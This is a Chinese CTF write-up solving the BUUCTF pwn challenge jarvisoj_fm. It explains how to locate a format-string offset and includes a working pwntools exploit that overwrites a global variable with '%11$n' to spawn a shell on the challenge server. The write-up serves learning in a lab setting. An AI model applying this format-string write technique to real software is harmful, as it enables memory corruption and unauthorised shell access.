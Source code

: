 # BUUCTF Pwn Fmtstr: jarvisoj_fm


checksec 结果

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
IDA分析

![image-20210828140628177](image-20210828140628177.png "IDA")

很明显，存在格式化字符串漏洞。通过`x==4`的判断就能够拿到shell，那应该就是利用[格式化字符串覆盖指定地址内容](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_13)。

格式化字符串漏洞类型的pwn，核心就在于确定格式化字符串的偏移。因为一般来说在调用`printf(buf)`的时候，栈布局是这样的，所以我们得通过gdb调试等手段来判断**格式化字符串的起始地址的偏移**。

```
          ....
low -----------------

    -----------------
    	 old ebp
    -----------------stack of printf()
         ret addr
    ----------------       ---------
   arg1: addr of fmt_str       |
    -----------------          |
                             offset
							   |
                               |
addr-----------------      ---------
  format string content
  		........
high-----------------
          ....
```

最常用的方法是输入`aaaa`/`aaaaaaaa`＋`%p.%p.....`，通过看`0x61`在哪开始出现来判断偏移。

![image-20210827234341173](image-20210827234341173.png)

当然，在调试的时候也能够通过计算得出偏移，如本题的偏移就为`(0x9c-0x70)/4=11`（因为是32位，字长位4字节）。

![image-20210827234409770](image-20210827234409770.png)

再结合IDA查找变量`x`的地址，就可以写exp了。

```python
from pwn import *

context.os = "linux"
context.arch = "i386"

# context.log_level = "debug"

if args.LOCAL:
    p = process("./fm")
else:
    p = remote("node4.buuoj.cn", 28965)

x_addr = 0x804a02c
format_str_offset = 11

payload = p32(x_addr)+b'%11$n'
p.sendline(payload)

p.interactive()
```


